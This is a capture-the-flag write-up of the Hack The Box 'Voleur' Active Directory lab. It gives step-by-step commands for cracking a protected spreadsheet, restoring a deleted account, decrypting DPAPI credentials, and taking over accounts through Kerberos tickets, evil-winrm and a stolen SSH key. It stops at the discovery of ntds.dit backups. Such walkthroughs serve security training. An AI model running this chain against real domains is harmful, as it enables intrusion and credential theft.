<h1>HTB: Voleur</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Voleur)       |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 21st 2026                                                   |

--- 

*  For this box we start off with credentials for the following account: ryan.naylor / HollowOct31Nyt

<h2>Enumeration</h2>

<h3>NMAP</h3>

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.232.130 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an `ssh` server on port 2222, a `dns server` on port 53, `ldap` on port 389, `kerberos` on port 88, `smb` share on port 445, and `windows remote management` on port 5985 among other things. We can also see that the Host is named  `DC` and the domain is `voleur.htb` so lets add `dc.voleur.htb` and `voleur.htb` to our /etc/hosts file.


```
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-22 12:14:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
57727/tcp open  msrpc         Microsoft Windows RPC
57733/tcp open  msrpc         Microsoft Windows RPC
57752/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel
```

Let's use our provided credentials to gain attempt to gain access to the target machine using `netexec` smb.

<h3>NetExec smb</h3>

Attempting to use our provided credentials to access and list the shares on the target machine we get the following:



What is important to note in this output is the `(NTLM:False)` and the `STATUS NOT SUPPORTED` as this tells us that NTLM authentication is not supported.

Looking back at our nmap scan we can see that there is also a `kerberos` server running so the share most likely supports kerberos authentication so lets explore that further. 

We will need to generate our own `krb5.conf` file and set the `KRB5_CONFIG` environment variable equal to it. This automates the setup required for Kerberos authentication on Linux attack systems. Netexec supports this `krb5.conf` generation through the addition of the `--generate-krb5-file <FileName>` option to the netexec command.

Thus our command would look like this:

```
netexec smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -d voleur.htb --generate-krb5-file voleur.conf
```



Then we set the correct environment variable:

```
export KRB5_CONFIG=voleur.conf
```

and lastly we must sync the clock of our attack machine to that of the domain controller:

```
sudo ntpdate 10.129.232.130
```

Then we can verify that we have successfully set up kerberos auth by running the command:

```
netexec smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -d voleur.htb -k
```

The `-k` flag forces kerberos authentication:



Success! We can now access the SMB share using kerberos authentication, so lets continue our enumeration.

Rerunning the command with the addition of the `-M spider_plus` option allows us to list and dump all files from all readable shares.

Doing so creates a .json file that we can read using the less command:





Looking at the file we see that there is an interesting file within the `IT`share called `Access_Review.xlsx` so lets download it.

To do so we will need to add the `--share IT` option to specify that we want to access the IT share specifically the we use the option `--get-file <Access Path> <File Download Name on attack machine`:

```
netexec smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -d voleur.htb -k --share IT --get-file "\First-Line Support\Access_Review.xlsx" Access_Review.xlsx
```


Attempting to open the file we find that it is password protected:



We will have to attempt to crack the password using `John the Ripper`.

<h3>John the Ripper</h3>

In order to crack the hash we first need to extract it from the .xlxs file using `office2john`:

```
office2john Access_Review.xlsx > Access_Review.hash
```

The we can attempt to crack this extracted hash using the `rockyou.txt` wordlist:

```
john Access_Review.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Now we can unlock the document and view its contents!



The document contains important information on various user and service account along with a few passwords. Interestingly it notes that the user `Todd.Wolfe` had their password reset and their account deletes, this is noteworthy as we may be able to recover the user and use this password to gain remote access. 

Additionally passwords were provided for two service accounts, `svc_ldap` and `svc_iis`, which we can verify using netexec.

Let's use our new `ldap_svc` credentials and NetExec to continue our enumeration.

<h3>NetExec ldap</h3>

Using netexec we can see a list of all domain groups by running the command:

```
netexec ldap 10.129.232.130 -u svc_ldap -p ************ -k --groups
```
Scrolling to the bottom of the returned output we see that there is a `Restore_Users` group that contains one object:



We can list all the members of this group by running the command:

```
netexec ldap 10.129.232.130 -u svc_ldap -p ********** -k --groups "Restore_Users"
```



From this we can see that the `ldap_svc` user is the only member of the `Restore_Users` group.

Let's attempt to restore the `todd.wolfe` user using `BloodyAD`.

<h3>BloodyAD</h3>

We can restore a user using the bloodyad tool using the command:

```
bloodyad --host dc.voleur.htb -d voleur.htb -u svc_ldap -p *********** -k set restore todd.wolfe
```




We can then verify the restoration using the netexec ldap --users command from earlier:



Now we need to get the `.ccache` file for todd.wolfe so we can authenticate using kerberos. 

<h3>Impacket-getTGT</h3>

Thankfully impacket provides us with a tool to easily do this. All we need to do is run the command:

```
impacket-getTGT voleur.htb/todd.wolfe -dc-ip 10.129.232.130
```

This will save the ticket to a file named `todd.wolfe.ccache` which we then set the `KRB5CCNAME` environment variable equal to using `export`.

Using `netexec smb` we can validate the kerberose authentication and check todd.wolf's smb share access.

<h3>NetExec smb</h3>

Listing the shares again but this time using the `todd.wolfe` credentials we see that they also have read access to the `IT` share:



Lets spider the IT share as the `todd.wolfe` user by running the command:

```
nxc smb dc.voleur.htb -u todd.wolfe -p ************* -d VOLEUR.htb -k --shares --spider IT --regex .
```

This returns a lot of output but the main thing we can see from it is that the share contains a archive of `todd.wolfe`:



Let's access and enumerate the share using `impacket-smbclient`.

<h3>Impacket-smbclient</h3>

We can access the share using the command:

```
impacket-smbclient -k todd.wolfe@dc.voleur.htb
```

Then selecting the IT share by typing:

```
use IT
```



Enumerating through the directories we find a `Credentials` folder located in `/Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Credentials`. This folder contains an encrypted credential file which we will download:



To decrypt this file we will also need the `Master Key` which is located in `/Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110` :



In order to get decrypt the credentials we will be using `impacket-dpapi`.

<h3>Impacket-dpapi</h3>

The first step in this process is to unlock the master key using the users SID and password:

```
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
```



Make note of the `Decrypted key` as we will be using that the decrypt the credential file:

```
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```



The decrypted credential is for the user `jeremy.combs`, let's use `impacket-getTGT` tool to retrieve their .ccache file for in order to authenticate using kerberos.

<h3>Impacket-getTGT</h3>

The process for this is the same as for the `todd.wolfe` user.

First run the command to get the ticket:

```
impacket-getTGT voleur.htb/jeremy.combs -dc-ip 10.129.232.130
```
and enter the password.

Then set the `KRB5CCNAME` environment variable equal to the file the ticket was stored in using the `export` command:

```
export KRB5CCNAME=jeremy.combs.ccache
```

Now we can login using `evil-winrm`.

<h3>Evil-WinRM</h3>

We can now login using evil-winrm by running the command:

```
evil-winrm -i dc.voleur.htb --realm voleur.htb
```



<h2>Privilege Escalation</h3>

Changing into the `C:\` directory we can see the `IT` smb share:



Lets enumerate it as `jeremy.combs`.

Going back to the recovered .xlsx file we can see that `jeremy.combs` is the only member with the `Third-Line Support Technician` job title:



Listing the folders in the IT share we see a `Third-Line Support` so lets explore that further:



This folder contains a txt file titled `Note.txt.txt` an `id_rsa` ssh key and then a directory titled `Backups`.

Displaying the `Note.txt.txt` file using the `type` command we can see its contents:



The file contains a note to Jeremy from the admin stating that they have configured WSL to see if they can use any of the linux backup tools.

We are able to download the `id_rsa` file but are not able to access the `Backups` folder:



Moving back to a terminal on our attack box we need to change the permissions on our `id_rsa` file in order to use it to access the target machine:

```
chmod 600 id_rsa
```

We are then ready to try and ssh into the server!

The first attempt did not work trying to ssh as `jeremy.combs` so I went back over the .xlsx document and remembered there is a `svc_backup` account with a note `Speak to Jeremy!` so let's try that instead:



Success!

In the `/mnt` directory we find the `C:\` drive and thus the `IT\Third-Line Support\Backup` directory. A quick `ls -al` confirms that `svc_backup` is the owner of the directory and has full access!



The `Backups` directory contains two subdirectories, `Active Directory` which contains the `ntds.dit` and `ntds.jfm` files, and the `registry` directory which contains the `SYSTEM` and `SECURITY` files:

